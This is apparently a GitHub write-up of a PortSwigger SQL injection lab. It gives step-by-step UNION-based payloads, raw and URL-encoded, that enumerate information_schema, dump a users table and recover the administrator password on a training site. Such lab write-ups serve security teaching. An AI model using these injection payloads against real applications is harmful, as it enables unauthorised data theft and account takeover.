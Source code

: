 
# SQL injection attack, listing the database contents on non-Oracle databases

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

___
**HINT:**
![screnshot](images/lab9_listing_content_of_database.jpg)

`SELECT * FROM information_schema.tables--`  => for table like `Product`,`Users` etc
`SELECT * FROM information_schema.columns WHERE table_name = 'Users'` => for `UserId`, `Password`

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=pets` => send to repeater

![screnshot](images/lab9_category_pets.jpg)

step 2

`SELECT * FROM information_schema.tables--`
you can rewrite payload using UNION
```sql
' UNION SELECT NULL,TABLE_NAME FROM information_schema.tables--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables--
```

`/filter?category=Pets'+UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables--`

![screnshot](images/lab9_user_table.jpg)

Table => `users_xqqeus`

step 3

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
Rewrite payload using UNION
```sql
' UNION SELECT NULL,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users_xqqeus'--
```

convert to URL Encoded
```sql
'+UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name+%3d+'users_xqqeus'--
```

`/filter?category=Pets'+UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name+%3d+'users_xqqeus'--`

![screnshot](images/lab9_user_id_password.jpg)

User-id => `username_wifoyz` Password => `password_jipwdz`

step 4

`SELECT * FROM Users`
Rewrite payload using UNION
```sql
' UNION SELECT username_wifoyz,password_jipwdz FROM users_xqqeus--
```

convert to URL Encoded
```sql
'+UNION+SELECT+username_wifoyz,password_jipwdz+FROM+users_xqqeus--
```

`/filter?category=Pets'+UNION+SELECT+username_wifoyz,password_jipwdz+FROM+users_xqqeus--`

![screnshot](images/lab9_administrator_password.jpg)


step 5

To solve the lab use administrator id and password
```html
<tr>
	<th>administrator</th>
	<td>ete87avuw1cw7826f8ec</td>
</tr>
```

![screnshot](images/lab9_solved_lab.jpg)